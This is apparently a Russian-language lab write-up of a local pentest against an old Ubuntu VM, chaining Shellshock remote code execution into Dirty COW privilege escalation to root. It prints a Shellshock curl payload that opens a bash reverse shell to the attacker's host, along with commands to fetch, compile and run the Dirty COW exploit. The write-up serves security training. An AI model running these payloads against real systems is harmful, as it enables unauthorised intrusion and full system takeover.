# 🧪 Lab10

**Вектор:** Shellshock (RCE) ➔ Dirty COW (LPE)
*   **OS:** 🐧 Linux (Ubuntu)
*   **Сложность:** 🟢 Легкая
*   **Инструменты:** 🧰 `arp-scan` `nmap` `dirb` `ffuf` `netcat` `searchsploit` `gcc`
*   **Ключевые навыки:** 📊 Эксплуатация CGI-скриптов, статическая компиляция под старые ядра.

## 🔍 Разведка

Пентестить будем с Kali Linux, наш ip-адрес: **10.0.2.8**. Используем гипервизор VirtualBox. Для начала давайте найдем нашу цель, которая находится в локальной сети:

```bash
arp-scan -l
```



Так как DHCP раздаёт ip-адреса по-порядку, а мы Kali включили первой, наша цель, соответственно, с ip-адресом **10.0.2.9**.

## 👁️‍🗨️ Сканирование

Теперь давайте посмотрим top 1000 портов, какие открыты, какие службы на них работают:

```bash
nmap -sS -sV -Pn 10.0.2.9
```



OpenSSH 5.9, Apache 2.2.22 - мда, старовато. Ещё открыт 80-ый порт, сразу смотрим что там.

## 🌐 Веб-анализ



Ну тут ничего интересного. Давайте посмотрим, что спрятано от наших глаз - для этого будем фаззить директории:

```bash
dirb http://10.0.2.9
```



Мы нашли папку `cgi-bin`, пусть и с кодом ошибки 403. В ней обычно хранятся скрипты, которые мы сейчас поищем. Для это можно взять другую утилиту - `ffuf`.

```bash
ffuf -u http://10.0.2.9/cgi-bin/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .sh,.cgi,.pl
```


Ага, есть **test.sh**, а значит мы можем сейчас протестировать на уязвимость **Shellshok**.

## 💀 Эксплуатация

Открываем второй терминал и слушаем любой свободный порт:

```bash
nc -lvnp 4444
```



В первом терминале выполняем вот эту команду:

```bash
curl -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.0.2.8/4444 0>&1" http://10.0.2.9/cgi-bin/test.sh
```


Щелчок! И у нас есть удаленное выполнение команд (RCE).

## 🛠️ Постэксплуатация

Стабилизируем шелл, если нужно:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Осматриваемся в системе:

```bash
id
uname -a
sudo -l
```



Так, видим устаревшее ядро. Давайте ещё посмотрим файлы с SUID-битом:

```bash
find / -perm -u=s -type f 2>/dev/null
```



Ну тут вроде всё стандартно. Давайте вернёмся к ядру. Загуглив версию ядра, вылетает несколько эксплоитов, но чаще всего 🐄 **Dirty COW (CVE-2016-5195)**. Вот его и возьмём.

```bash
ping -c 1 8.8.8.8
which gcc
cd /tmp
```



После этого качаем эксплоит. Иии... Скомпилировать не получилось из-за отсутствия нужных файлов:



Ну ничего страшного! Давайте просто статически скомпилируем на нашей Kali. Тем более Google подсказал, что нужный нам Dirty COW есть в локальной базе эксплойтов. Идём в терминал Kali и скачиваем оттуда:

```bash
searchsploit -m 40839
```



Теперь здесь же и скомпилируем:

```bash
gcc -pthread 40839.c -o dirty_static -static -lcrypt
```



Эм, допустим. Google говорит доустановить нужные библиотеки. Хорошо, так и делаем:

```bash
apt install libc6-dev libcrypt-dev
```



Дубль №2:



Отлично! Теперь давайте скачаем этот эксплоит с нашей Kali на Ubuntu. Для этого поднимаем сервер на Kali:

```bash
python3 -m http.server 80
```

И в терминале Ubuntu скачиваем:

```bash
wget http://10.0.2.8/dirty_static
```



## 🌋 Эскалация привелегий

Хорошо, теперь даём файлу права на исполнение и запускаем:

```bash
chmod +x dirty_static
./dirty_static
```

Будет создан новый пользователь firefart с правами root, нас попросят придумать ему пароль, вбиваем и ждём. Потом переключаемся на пользователя `firefart`. Теперь можем забирать 🚩 флаг:

```bash
su - firefart
cat root.txt
```


**Status:** ✅ Machine pwned.

## 📑 [Отчёт](./Report.md)